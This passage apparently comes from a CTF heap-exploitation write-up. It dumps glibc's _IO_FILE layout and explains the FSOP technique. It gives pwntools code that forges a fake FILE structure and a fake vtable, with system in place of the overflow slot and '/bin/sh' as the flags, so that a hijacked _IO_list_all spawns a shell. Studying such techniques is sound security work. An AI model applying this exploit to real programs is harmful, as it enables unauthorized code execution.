 ```c
    +0x0040 _IO_buf_end          : char *
    +0x0048 _IO_save_base        : char *
    +0x0050 _IO_backup_base      : char *
    +0x0058 _IO_save_end         : char *
    +0x0060 _markers             : struct _IO_marker *
    +0x0068 _chain               : struct _IO_FILE *
    +0x0070 _fileno              : int
    +0x0074 _flags2              : int
    +0x0078 _old_offset          : __off_t
    +0x0080 _cur_column          : short unsigned int
    +0x0082 _vtable_offset       : signed char
    +0x0083 _shortbuf            : char [1]
    +0x0088 _lock                : _IO_lock_t *
    +0x0090 _offset              : __off64_t
    +0x0098 _codecvt             : struct _IO_codecvt *
    +0x00a0 _wide_data           : struct _IO_wide_data *
    +0x00a8 _freeres_list        : struct _IO_FILE *
    +0x00b0 _freeres_buf         : void *
    +0x00b8 __pad5               : size_t
    +0x00c0 _mode                : int
    +0x00c4 _unused2             : char [20]
```

I know that's a lot but we don't care about most of the fields.
Mind the `_chain` field inside the structure. Like in the fastbins for the heap chunks under `0x80` bytes, all the `FILE` streams in the libc are singly-linked (using the `_chain` field). The first member of this list is the `_IO_list_all` symbol that contains the last opened `FILE` stream, `stderr` in this case (but we don't really care), and a pointer to a vtable (yup, C++ has corrupted the libC). When a file stream needs to be cleaned, for example when closed (when the program exits _for example_), the `overflow` function in this vtable is called, with a pointer to the `FILE` structure that needs to be closed as first parameter. This `overflow` function is only called if `_mode <= 0 && _IO_write_ptr > _IO_write_base`. Hohoho, I wonder if we can control this vtable to make the `overflow` field to point to the `system` function...

What we're going to do is overwrite the `_IO_list_all` to make it point to some memory we control on the heap. We can craft a fake `FILE` structure adjacent to a fake `vtable` pointer, which contains a pointer to `system` instead of the usual pointer to `overflow`.

First, craft the fake vtable :
```python
# Create fake vtable
fake_vtable = p64(0) * 3
fake_vtable += p64(libc.sym.system)
vtable_addr = malloc(0x100, fake_vtable)
```
Mind that the `overflow` function is the 4th member of the vtable.
Then craft the fake `FILE` structure which is followed by the fake vtable pointer :
```python
# Create fake FILE
fake_file = b"/bin/sh\0"                # _flags
fake_file += p64(0x61)                  # _IO_read_ptr
fake_file += p64(0xdeadbeef)            # _IO_read_end
fake_file += p64(0xdeadbeef)            # _IO_read_base
fake_file += p64(1)                     # _IO_write_base
fake_file += p64(2)                     # _IO_write_ptr
fake_file += p64(0)*18                  # _IO_write_end ... __pad5
fake_file += p32(0)                     # _mode
fake_file += p8(0)*20                   # _unused2
fake_file += p64(vtable_addr)
file_addr = malloc(0x100, fake_file)
```

